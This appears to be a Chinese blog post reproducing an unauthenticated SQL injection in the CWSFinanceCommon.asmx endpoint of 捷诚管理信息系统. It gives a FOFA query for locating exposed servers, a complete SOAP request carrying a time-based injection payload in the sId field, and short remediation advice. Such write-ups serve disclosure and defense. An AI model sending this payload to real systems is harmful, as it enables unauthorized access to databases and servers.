

# 捷诚管理信息系统 SQL注入漏洞复现

### 0x01 产品简介

   捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业[有效的](https://so.csdn.net/so/search?q=%E6%9C%89%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)开展内部审批工作。

### 0x02 漏洞概述

  捷诚管理信息系统CWSFinanceCommon.asmx接口存在[SQL注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)。未经身份认证的攻击者可以通过该漏洞获取数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：body="/Scripts/EnjoyMsg.js"


### 0x04 漏洞复现 

PoC

```cobol
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOSpById xmlns="http://tempuri.org/">
      <sId>1';WAITFOR DELAY '0:0:5'--+</sId>
    </GetOSpById>
  </soap:Body>
</soap:Envelope>
```

 延时5秒

sqlmap验证



### 0x05 修复建议

关闭该功能页面或接口处设置外部访问权限

升级至安全版本
